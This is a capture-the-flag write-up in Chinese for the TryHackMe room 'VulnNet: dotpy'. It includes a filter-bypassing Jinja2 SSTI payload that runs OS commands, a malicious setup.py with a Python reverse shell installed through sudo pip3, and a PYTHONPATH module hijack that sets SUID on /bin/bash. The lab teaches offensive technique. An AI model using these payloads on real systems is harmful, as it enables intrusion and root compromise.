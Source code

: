 ```yaml
---
sidebar_position: 135
tags: [Easy, Linux, SSTI, SUDO]
title: "VulnNet: dotpy"
description: "VulnNet: dotpy"
sidebar_label: "VulnNet: dotpy"
slug: /tryhackme/135
---
```


# VulnNet: dotpy

## 端口扫描

```bash
root@ip-10-10-239-79:~/vulnnetdotpy# nmap -sTCV -p- --min-rate 1000 10.10.78.187

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-03 11:51 BST
Nmap scan report for ip-10-10-78-187.eu-west-1.compute.internal (10.10.78.187)
Host is up (0.00034s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-title: VulnNet Entertainment -  Login  | Discover
|_Requested resource was http://ip-10-10-78-187.eu-west-1.compute.internal:8080/login
MAC Address: 02:A0:03:86:07:81 (Unknown)
```

## 8080

访问此站点进行目录遍历也没有发现任何新的页面, 接着我访问页面并创建账号进行登陆, 在其中我发现一个页面存在 SSTI 漏洞

![image-20240709161956660](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161957.png)

因此我便开始了一系列的攻击但是我发现他过滤了一些内容, 所以我需要进行一些尝试从这里我们可以知道过滤了 : > _ [] .

![image-20240709162008660](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162009.png)

查找了一些 payload 后我发现了一个

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![image-20240709162017285](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162018.png)

## 后渗透

### web

利用上面得到的 payload 进行操作获取一个 Shell

![image-20240709162034015](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162035.png)

### web —> system-adm

发现用户可以以 system-adm 身份执行 pip 命令, 所以我们可以借此完成攻击

```bash
(remote) web@vulnnet-dotpy:/home/web/shuriken-dotpy$ sudo -l
Matching Defaults entries for web on vulnnet-dotpy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User web may run the following commands on vulnnet-dotpy:
    (system-adm) NOPASSWD: /usr/bin/pip3 install *

(remote) web@vulnnet-dotpy:/tmp$ cat << EOF > setup.py
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.239.79",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
> EOF
(remote) web@vulnnet-dotpy:/tmp$ sudo -u system-adm /usr/bin/pip3 install /tmp
Processing /tmp
```

之后我们就可以得到一个 Shell

![image-20240709162042994](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-162044.png)

### system-adm —> root

接着发现用户 system-adm 可以执行 SUDO 特权去执行一个 Python 脚本同时带有 SETENV 特权, 所以我们可以利用 Python  的 PATH 提权

```bash
(remote) system-adm@vulnnet-dotpy:/home/system-adm$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
(remote) system-adm@vulnnet-dotpy:/opt$ cat backup.py  | head -n 3
from datetime import datetime
from pathlib import Path
import zipfile
(remote) system-adm@vulnnet-dotpy:/tmp$ cat << EOF >zipfile.py
> import os
> os.system('chmod u+s /bin/bash')
> EOF
(remote) system-adm@vulnnet-dotpy:/tmp$ sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
Traceback (most recent call last):
  File "/opt/backup.py", line 32, in <module>
    zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
AttributeError: module 'zipfile' has no attribute 'ZipFile'
(remote) system-adm@vulnnet-dotpy:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```

